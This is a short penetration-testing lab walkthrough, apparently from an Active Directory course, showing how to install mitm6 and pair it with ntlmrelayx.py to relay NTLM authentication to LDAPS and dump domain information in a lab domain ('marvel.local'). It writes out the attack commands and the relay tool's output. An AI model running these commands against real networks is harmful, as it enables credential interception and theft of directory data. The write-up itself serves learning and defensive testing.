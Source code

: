 
First of all install [pimpmykali](https://github.com/Dewalt-arch/pimpmykali) cos' the tool `mitm6` doesn't come pre-installed with kali linux

![](https://i.imgur.com/SyvCBNl.png)

Change directory to `/opt/mitm6` and install the necessary requirements

```shell
sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ cd /opt/mitm6      

sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ sudo pip2 install .

sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ cd ~         

sec-fortress@Pwn-F0rk-3X3C:~$ 
```

![](https://i.imgur.com/jIbtM8b.jpg)

### Setting up ntlmrelayx and mitm6

On your terminal do :

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ ntlmrelayx.py -6 -t ldaps://192.168.0.110 -wh fakewpad.marvel.local -l bankai

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
```

Note that `-6` represents IPv6 `-t` for targets `-wh` for fake web proxy auto-discovery `-l` will create a folder named **bankai**

Then start up the `mitm6` server with the following command :

```shell
sec-fortress@Pwn-F0rk-3X3C:~$ sudo mitm6 -d marvel.local
```

![](https://i.imgur.com/S8Go70A.png)

Now we can go ahead and re-boot our `THE-PUNISHER` machine and focus on our terminal

![](https://i.imgur.com/3DID7Ig.png)

Checking your present folder, `~/PEH/AD` , you should have a folder with the folder name when you specified the `-l` option, this folder contains sensitive files in **html, grep and json** format (HTML formats are the best)



